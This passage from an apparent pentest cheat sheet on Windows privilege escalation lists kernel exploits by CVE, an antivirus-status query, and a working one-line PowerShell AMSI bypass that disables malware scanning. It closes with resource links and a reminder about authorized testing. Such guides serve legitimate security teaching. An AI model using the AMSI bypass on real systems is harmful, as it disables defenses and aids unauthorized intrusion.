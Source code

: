 ### Common Kernel Exploits
- **MS16-032** (Windows 7 SP1/2008 R2 SP1)
- **MS17-017** (Windows 7/8/10/2016)
- **CVE-2019-1388** (Windows 7/8/10/2016/2019)

## Detection and Evasion

### Anti-Virus Evasion
```powershell
# Check AV status
Get-WmiObject -Namespace "root\SecurityCenter2" -Class AntiVirusProduct
```

### AMSI Bypass (PowerShell)
```powershell
# AMSI Bypass example
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```

## Best Practices

1. **Always gather system information first**
2. **Use automated tools for initial reconnaissance**
3. **Verify exploits in isolated environments first**
4. **Document all findings for reporting**
5. **Clean up artifacts after testing**

## Useful Resources

- [LOLBAS Project](https://lolbas-project.github.io/)
- [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings)
- [Windows Privilege Escalation Guide](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation)

Remember to always test these techniques in authorized environments only. Privilege escalation should only be performed during legitimate penetration testing engagements with proper authorization.

---

*Stay ethical, stay secure.*
